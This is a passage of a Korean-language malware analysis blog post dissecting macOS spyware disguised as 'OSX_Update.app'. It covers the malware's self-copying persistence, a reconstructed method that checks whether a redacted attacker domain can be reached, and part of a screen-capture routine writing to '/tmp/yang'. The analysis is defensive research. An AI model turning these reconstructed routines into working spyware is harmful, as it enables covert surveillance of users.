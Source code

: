 <ul>
<li>악성코드를 "~/Library"에 복사한다</li>
<li>"/bin/sh -c open -a ~/Library/OSX_Update.app"을 실행한다.</li>
<li>원본 악성코드는 exit(0);으로 종료된다.</li>
<li>open으로 실행된 자신의 복사본은 파일 복사를 실패(copyItemAtPath 메서드 실패)하여 exit되지 않고 return 됨으로 다음 메서드(eqox)를 실행한다.</li>
</ul>
<p>&nbsp;</p>
<h2>4. 서버 상태 체크</h2>
<p>해당 임무가 완료되면, 주기적으로 eqox 메서드를 실행한다. 이 메서드는 공격자의 서버가 접속 가능한지 지속적으로 확인한다.</p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.39.58-AM.png"><img class="aligncenter size-full wp-image-733" alt="eqox method" src="{{ site.baseurl }}/assets/Screen-Shot-2014-01-24-at-11.39.58-AM.png" width="651" height="446" /></a></p>
<p>위 코드는 Objective C 코드로 작성하면 다음과 같다.</p>
<pre class="lang:default decode:true" title="eqox method">- (uint) [eqox]
{
    NSString domainname = [self cxx:@"HtYGE4fFRj4DMt9S9V/8GlFP+BOPsjBH]; // 도메인 명을 복호화하여 저장
    NSURL url = [NSURL initWithString:domainname];
    NSURLRequest request = [NSURLRequest alloc] initWithURL:url cachePolicy:0x01 timeoutInterval:]; // URL 요청 패킷을 생성, cachepolicy:NSURLRequestReloadIgnoringLocalCacheData(0x01)
    return_val = [NSURLConnection sendSynchronousRequest:request returningResponse:nil error:nil];
    if (return_val == nil) // 접속 실패 시
    {
        return -1;
    }
    else // 접속 성공 시
    {
        return 0;
    }
}</pre>
<p>해당 도메인을 복호화하면 "http://fxxxxxxh.com" 정보를 획득할 수 있다. <span style="line-height: 1.5em;">해당 도메인을 whois로 조회해보면 러시아에 위치한다.</span></p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-23-at-3.34.19-PM.png"><img class="aligncenter size-full wp-image-713" alt="whois?" src="{{ site.baseurl }}/assets/Screen-Shot-2014-01-23-at-3.34.19-PM.png" width="864" height="371" /></a></p>
<p>whois 결과를 봐도; 자기 자신을 숨기기 위한 노력을 많이 하는 걸 볼 수 있는데, 등록자 이메일이나 주인의 이름을 Privacy Protection Service를 이용하여 숨겨두었다.</p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-10.48.40-AM.png"><img class="aligncenter size-full wp-image-724" alt="whois 결과" src="{{ site.baseurl }}/assets/Screen-Shot-2014-01-24-at-10.48.40-AM.png" width="542" height="182" /></a></p>
<h3></h3>
<p>&nbsp;</p>
<h2>5. 현재 시스템 화면을 캡처(bovx method part 1)</h2>
<p>도메인 접속을 확인하고 나면,  bovx 메서드를 실행한다. 이 메서드는 "/tmp/yang/[dateformat].png" 파일을 인자로하여 애플의 기본 프로그램인 "screencapture" 을 실행한다.</p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/01/Screen-Shot-2014-01-24-at-11.41.18-AM.png"><img class="aligncenter size-full wp-image-734" alt="bovx method" src="{{ site.baseurl }}/assets/Screen-Shot-2014-01-24-at-11.41.18-AM.png" width="702" height="417" /></a></p>
<p>Pseudo-Code는 다음과 같다.</p>
<pre class="lang:objc decode:true" title="bovx method">- (void) [bovx]
{
	NSString tmp = [self cxx:@“fEh3F36QAeU=“]; // "tmp"
	NSString yang = [self cxx:@“/I1427B/2/w=“]; // "yang"
	NSString path = [NSString stringWithFormat:@“%@%@%@“ tmp @“/“ yang];
	NSFileManager manager = [NSFileManager defaultManager];
	if (0 == [manager fileExistsAtPath:path]) // 없으면 디렉터리 생성
	{
		[manager createDirectoryAtPath:path attributes:nil];
	}
	NSDate date = [NSDate date]
	NSDateFormatter dateformat = [[NSDateFormatter alloc] init];
	setformat = [dateformat setDateFormat:[self cxx:@“kLBf7h7di4kSVBDQsZgCuzfbz16dIBnW”]]; // "yy-MM-dd-HH:mm:ss"
	NSString screenshotdate = [setformat stringFromDate];
	NSString extension = [self cxx:@ “LMHrvuDJskY”]; // ".png"
	NSString fullpath = [NSString stringWithFormat:@“%@%@%@%@“ tmp yang screenshotdate extension]; // "/tmp/yang/[DATE].png"
